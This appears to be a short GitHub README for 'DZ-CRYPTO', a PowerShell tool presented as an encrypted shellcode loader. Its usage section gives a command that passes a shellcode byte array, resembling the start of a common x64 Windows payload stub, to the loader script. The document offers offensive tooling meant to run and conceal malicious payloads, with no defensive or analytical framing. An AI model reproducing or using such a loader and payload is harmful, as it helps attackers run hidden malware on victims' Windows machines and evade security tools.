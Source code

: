 # DZ-CRYPTO
DZ-CRYPTO SHELL CODE LOADER ENCRYPTED SHELL CODE 


# USAGE

```
powershell -File .\DZ-CRYPTO.ps1 -payload 0xfc,0x48,0x83,0xe4,0xf0,0xe8,0xcc,0x0,0x0,0x0,0x41,0x51,0x41,0x50,0x52,0x48,0x31,0xd2,0x51,0x65,0x48,0x8b,0x52,0x60,0x48,0x8b,0x52,0x18,0x48,0x8b,0x52,0x20,0x56,0x48,0x8b,0x72,0x50
```
